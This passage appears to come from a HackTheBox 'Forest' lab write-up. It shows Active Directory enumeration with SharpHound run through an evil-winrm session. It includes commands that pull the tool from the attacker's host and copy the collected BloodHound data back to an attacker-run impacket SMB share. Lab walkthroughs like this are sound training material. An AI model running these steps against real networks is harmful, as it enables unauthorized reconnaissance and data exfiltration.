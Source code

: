 Lets use `SharpHound` to gather all the AD information we need from this machine. 

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe

- evil-winrm -
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> powershell -c wget "http://10.10.14.5/SharpHound.exe" -outfile "SharpHound.exe"
```

Now, we can invoke `SharpHound` to collect the necessary data.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> ./SharpHound.exe -c all
...
2022-07-14T21:53:29.1501079-07:00|INFORMATION|SharpHound Enumeration Completed at 9:53 PM on 7/14/2022! Happy Graphing!

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/14/2022   9:53 PM          17972 20220714215325_BloodHound.zip
-a----        7/14/2022   9:53 PM          19749 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        7/14/2022   9:51 PM         908288 SharpHound.exe
```

Great! Now that `SharpHound` is done collecting the necessary data, we can transfer the `zip` file back to our terminal using `impacket-smbserver`.

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# impacket-smbserver hound .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.161,55123)
[*] AUTHENTICATE_MESSAGE (\,FOREST)
[*] User FOREST\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

- evil-winrm -
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20220714215325_BloodHound.zip \\10.10.14.5\hound\
```

Finally, we can use `BloodHound` to analyse the data. 
